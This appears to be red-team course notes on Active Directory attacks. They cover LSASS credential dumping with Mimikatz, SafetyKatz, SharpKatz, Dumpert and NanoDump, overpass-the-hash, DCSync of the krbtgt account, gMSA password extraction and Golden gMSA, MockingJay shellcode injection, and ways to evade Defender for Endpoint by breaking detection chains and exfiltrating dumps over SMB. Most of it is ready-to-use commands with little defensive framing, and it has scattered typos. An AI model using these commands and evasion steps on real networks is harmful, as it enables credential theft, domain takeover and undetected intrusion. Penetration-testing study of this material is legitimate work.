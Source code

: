 
### Extracting Credentials from LSASS


Dump credentia;s on a local machine Mimikatz

~~~
Invoke-Mimikatz -command '"sekurlsa::ekeys"'
~~~

Unsing Safetykatz(minidump of lsass and PELoader to run Mimikatz)

~~~
SafetyKatz.exe "sekurlsa::ekays"
~~~

Dump Credential Using SharpKatz (C# port of some Mimikatz functionality)

~~~
Sharpkatz.exe --command ekeys
~~~

Dump credentials using Dumpert (Direct System Calls and API unhooking)

~~~
rundll32.exe c:\Dumpert\Outflank-Dumpert.dll,Dump
~~~

OverPass-The-Hash

Over Pass the hash generate tokens from hashes or keys. Needs elevation

~~~
Invoke-Mimikatz -command '"sekurlsa::pth /user:Administrator /run:powershell.exe"'
~~~

DCSync

To extract credentials from the DC  without code execution on it, we can use DCSync.

~~~
Invoke-Mimikatz -command '"lsadump::dcsync /user:us\krbtgt"'
~~~

~~~
Safetykatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
~~~

Domain Admins privileges are required to run DCSync

### gMSA

A group Managed Service Account provides automatic password management 
use of gMSA is recommended to protect from Kerberoast type attacks
user reads attribute 'msds-MangedPassword' the gMSA password is computed


A gMSA has object class 'msDS_GroupManagedServiceAccount'. This can be used to find to find the accounts

Using ADModule

~~~
Get-ADServiceAccount -Filter *
~~~

Using PowerView

~~~
Get-DomainObject -LDAPFilter '(objectclass=msDS-GroupManagedServiceAccount)'
~~~

The attribute 'msDS-GroupMSAMembership' lists the principals that can read the password blob

~~~
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalAllowedToRetrieveManagedPassword
~~~

Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash:

~~~
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
~~~

The _CurrentPassword_ attribute in the $decodedpwd contains the clear-text password but cannot be typed!

Passing the NTLM hash of the gMSA, we get privileges of the gMSA:

~~~
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
~~~

We can access the services and machines (server farms) that the account has access to

### Golden gMSA

The only ingredients the DC uses to generate the passwords, but we don’t have, are the following attributes of the KDS root key: 

- cn 
- msKds-SecretAgreementParam 
- msKds-RootKeyData 
- msKds-KDFParam 
- msKds-KDFAlgorithmID 
- msKds-CreateTime 
- msKds-UseStartTime 
- msKds-Version 
- msKds-DomainID 
- msKds-PrivateKeyLength 
- msKds-PublicKeyLength 
- msKds-SecretAgreementAlgorithmID


Once we compute the GKE for the associated KDS root key we can
generate the password offline.

Once we compute the GKE for the associated KDS root key we can
generate the password offline.

#### Endpoint Detection and Response (EDRs) & Microsoft Defender for Endpoint

Our objective is to remain undetected by AV and EDR on us-jump to perform:
– Lateral movement / remote access
– Tool transfer
– Credential extraction
– Data exfiltration

##### MDE - Credential Extraction – LSASS Dump


• Most tools create an LSASS dump by:
1. Gaining a handle to the LSASS process.
2. Creating a minidump using the MiniDumpWriteDump WinAPI function implemented in
dbghelp.dll / dbgcore.dll.
1. Writing the dump file on disk.


#### MockingJay Process Injection

Two possibilities of performing injection exist:
– Self Injection: Find a vulnerable trusted DLL with RWX permissions to copy our shellcode into and
load the DLL and execute shellcode.
– Remote Injection: Leveraging trusted applications that use a vulnerable trusted DLL with RWX
permissions to perform the same functionality as in Self Injection.


To find DLL's with an RWX portion we can use a POC such as:
https://github.com/pwnsauc3/RWXfinder

The DLL like 

~~~
C:\Program Files\Microsoft Visual
Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\
Team Explorer\Git\usr\bin\msys-2.0.dll
~~~

doesn't allow to execute larger shellcodes.

A DLL such as mscorlib.ni.dll was found with enough room to accommodate mid to
big sized shellcode.

#### LSASS Dump using NanoDump

To perform a covert dump using nanodump we can attempt to use the arguments:
spoof-callstack (-sc) , fork LSASS process before dumping (-f) and output the
obfuscated dump to a file (--write). The dump can later be restored using
restore_signature provided in the source /scripts folder

~~~
PS C:\AD\Tools\MockingJay> C:\AD\Tools\MockingJay\donut.exe -f 1 -p ' -sc -f --write nano.dmp' -i
~~~


~~~
C:\AD\Tools\MockingJay\nanodump.x64.exe -o C:\AD\Tools\MockingJay\nano.bin
~~~


### MDE - Tool Transfer

Downloading tools over HTTP(S) can be risky as it does increase the risk score and
chances of detection by the EDR.

However, if a LOLBAS that is undetected and trusted by Microsoft such as msedge is
available on the target we can perform HTTP(S) downloads without any detections.

`https://lolbas-project.github.io/`

An opsec friendly alternative would be to share files over SMB. To copy and
exfiltrate an LSASS dump a covert technique would be to copy the file to our host if
we have admin privileges over the target over SMB privileged shares.

### MDE - Breaking Detection Chains

Most EDRs correlate activity in a specific time interval after which it is reset, this can
vary for each EDR.

To bypass these correlation-based detections we can:
– Attempt to wait for a small-time interval (~10 mins) before performing the next query.
– Append non malicious queries in between subsequent malicious ones to break the detection
chain altogether.

